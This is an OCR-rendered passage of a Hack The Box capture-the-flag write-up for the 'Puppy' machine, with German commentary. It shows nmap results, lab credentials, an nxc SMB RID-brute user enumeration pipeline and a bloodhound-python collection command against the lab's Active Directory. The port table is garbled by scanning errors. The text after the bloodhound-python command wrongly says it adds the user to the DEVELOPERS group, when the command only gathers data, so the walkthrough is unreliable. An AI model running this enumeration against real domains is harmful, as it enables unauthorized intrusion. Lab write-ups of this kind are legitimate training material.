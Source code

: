 # HTB Writeup Puppy

## Initial Reconnaissance

```zsh
nmap -A xx.xx.xx.xx --min-rate 10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 15:00 EDT
Nmap scan report for xx.xx.xx.xx
Host is up (0.097s latency).
Not shown: 985 filtered tcp ports (no-response)

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-18 02:00:50Z)
111/tcp   open  rpcbind      2-4 (RPC #100000)
1/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   35open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr     1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

**Credentials: levi.james : KingofAkron2025!**

```zsh
rm -f /home/b2syn4p53/.nxc/workspaces/default/smb.db 
```

```zsh
nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | \
awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt  
```
Der erste Befehl löscht die NXC Workspace Datenbank.
Der zweite Befehl enumeriert Benutzerkonten vom SMB-Server `PUPPY.HTB` über RID-Bruteforce, filtert nur tatsächliche Benutzerkonten heraus und extrahiert **Benutzernamen**, die dann in die Datei `users.txt` gespeichert werden.  **SidTypeUser sind normale AD-Benutzer.**

### BloodHound Enumeration

```zsh
bloodhound-python -dc dc.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' \
-d puppy.htb -c All -o bloodhound_results.json -ns xx.xx.xx.xx
```
Er meldet sich mit dem Benutzer `levi.james` beim Domain Controller `xx.xx.xx.xx` (Domain `puppy.htb`) an und **fügt `levi.james` der AD-Gruppe `DEVELOPERS` hinzu** – vorausgesetzt, dieser Benutzer hat ausreichende Berechtigungen dafür.
